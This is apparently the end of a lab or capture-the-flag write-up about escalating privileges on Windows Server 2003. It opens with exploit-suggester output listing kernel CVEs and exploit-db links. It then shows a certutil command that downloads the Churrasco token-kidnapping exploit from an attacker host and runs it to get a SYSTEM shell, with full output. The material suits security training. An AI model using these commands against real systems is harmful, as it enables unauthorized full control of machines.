"20110208","CVE-2010-4398","2393802","Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege","http://www.exploit-db.com/bypassing-uac-with-user-privilege-under-windows-vista7-mirror/, http://www.exploit-db.com/exploits/15609/"
"20140114","CVE-2013-5065","2914368","Vulnerability in Windows Kernel Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/37732/"
"20140114","CVE-2013-5065","2914368","Vulnerability in Windows Kernel Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/37732/"
"20150714","CVE-2015-2366","3070102","Vulnerabilities in Windows Kernel-Mode Driver Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38266/"
"20150714","CVE-2015-2366","3070102","Vulnerabilities in Windows Kernel-Mode Driver Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38266/"
"20150512","CVE-2015-1701","3045171","Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/37049/, https://www.exploit-db.com/exploits/37367/"
"20150512","CVE-2015-1701","3045171","Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/37049/, https://www.exploit-db.com/exploits/37367/"
"20140708","CVE-2014-1767","2961072","Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/39525/, https://www.exploit-db.com/exploits/39446/"
"20140708","CVE-2014-1767","2961072","Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/39525/, https://www.exploit-db.com/exploits/39446/"
"20141014","CVE-2014-4971","2993254","Vulnerability in Message Queuing Service Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege","http://seclists.org/fulldisclosure/2014/Jul/97, https://www.korelogic.com/Resources/Advisories/KL-001-2014-003.txt, https://www.korelogic.com/Resources/Advisories/KL-001-2014-002.txt, http://seclists.org/fulldisclosure/2014/Jul/96, http://www.exploit-db.com/exploits/34112, http://packetstormsecurity.com/files/128674/Microsoft-Bluetooth-Personal-Area-Networking-BthPan.sys-Privilege-Escalation.html, http://www.exploit-db.com/exploits/34982, http://www.exploit-db.com/exploits/34131"
"20141014","CVE-2014-4971","2993254","Vulnerability in Message Queuing Service Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege","http://seclists.org/fulldisclosure/2014/Jul/97, https://www.korelogic.com/Resources/Advisories/KL-001-2014-003.txt, https://www.korelogic.com/Resources/Advisories/KL-001-2014-002.txt, http://seclists.org/fulldisclosure/2014/Jul/96, http://www.exploit-db.com/exploits/34112, http://packetstormsecurity.com/files/128674/Microsoft-Bluetooth-Personal-Area-Networking-BthPan.sys-Privilege-Escalation.html, http://www.exploit-db.com/exploits/34982, http://www.exploit-db.com/exploits/34131"
"20090414","CVE-2008-1436","952004","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/6705"
"20090414","CVE-2008-1436","952004","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/6705"
"20090414","CVE-2008-1436","952004","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 1","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/6705"
"20090414","CVE-2008-1436","952004","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/6705"
"20090414","CVE-2008-1436","956572","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/6705"
"20090414","CVE-2008-1436","956572","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/6705"
"20090414","CVE-2008-1436","956572","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 1","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/6705"
"20090414","CVE-2008-1436","956572","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/6705"
'
```

### Download the Exploit (MS09-012)

[Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation](https://www.exploit-db.com/exploits/6705)

Unfortunately all the link to the file expired.

### Finding the same exploit

[https://github.com/Re4son/Churrasco/](https://github.com/Re4son/Churrasco/)

### Uploading the Exploit to the Target System

When using `certutil -urlcache -f` the execution fails.

```powershell
certutil -urlcache -f http://<attacker ip>:8000/churrasco.exe C:\tmp\churrasco.exe

"
certutil -urlcache -f http://10.10.14.46:8000/churrasco.exe C:\tmp\churrasco.exe
CertUtil: -URLCache command FAILED: 0x80070057 (WIN32: 87)
CertUtil: The parameter is incorrect.
"
```

Looking at CertUtil help menu, we can add `-split` to save the file

```
Usage:
  CertUtil [Options] -URLCache [URL | CRL | * [delete]]
  Display or delete URL cache entries
    URL -- cached URL
    CRL -- operate on all cached CRL URLs only
    * -- operate on all cached URLs
    delete -- delete relevant URLs from the current user's local cache
    Use -f to force fetching a specific URL and updating the cache.

Options:
  -f                -- Force overwrite
  -gmt              -- Display times as GMT
  -seconds          -- Display times with seconds and milliseconds
  -split            -- Split embedded ASN.1 elements, and save to files
  -v                -- Verbose operation
  -privatekey       -- 

CertUtil -?              -- Display a verb list (command list)
CertUtil -URLCache -?    -- Display help text for the "URLCache" verb
CertUtil -v -?           -- Display all help text for all verbs
```

Download the file

```powershell
# Save it inside C:\tmp\. Ofcourse you need to mkdir tmp first.
certutil -urlcache -f -split http://<attacker ip>:8000/churrasco.exe
```

After the download, the filename will look quite strange..

If you execute the file, you will know that is the exploit.

```powershell
dir

'
C:\tmp>dir   
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\tmp

10/22/2023  02:09 PM    <DIR>          .
10/22/2023  02:09 PM    <DIR>          ..
10/22/2023  02:16 PM            31,232 Blob0_0.bin
               1 File(s)         31,232 bytes
               2 Dir(s)   1,314,627,584 bytes free

C:\tmp>.\Blob0_0.bin
.\Blob0_0.bin
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
C:\WINDOWS\TEMP
'
```

Change the filename

```powershell
move Blob0_0.bin churrasco.exe
```

### Exploit

```powershell
.\churrasco.exe -d cmd

"
.\churrasco.exe -d cmd
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x734
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x72c
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami

C:\tmp>whoami /user
whoami /user
nt authority\system

C:\WINDOWS\TEMP>
"
```

Using `-d` we are specifying what to execute in administrator mode. Since we are trying to get the administrator privilege, we are going to execute `cmd`

# Reference

- [https://github.com/crypticdante/CVE-2017-7269](https://github.com/crypticdante/CVE-2017-7269)
- [https://www.exploit-db.com/exploits/6705](https://www.exploit-db.com/exploits/6705)
- [https://www.cvedetails.com/microsoft-bulletin/ms09-012/](https://www.cvedetails.com/microsoft-bulletin/ms09-012/)
- [https://github.com/jivoi/pentest/blob/master/exploit_win/churrasco](https://github.com/jivoi/pentest/blob/master/exploit_win/churrasco)
- [https://github.com/Re4son/Churrasco/raw/master/churrasco.exe](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe)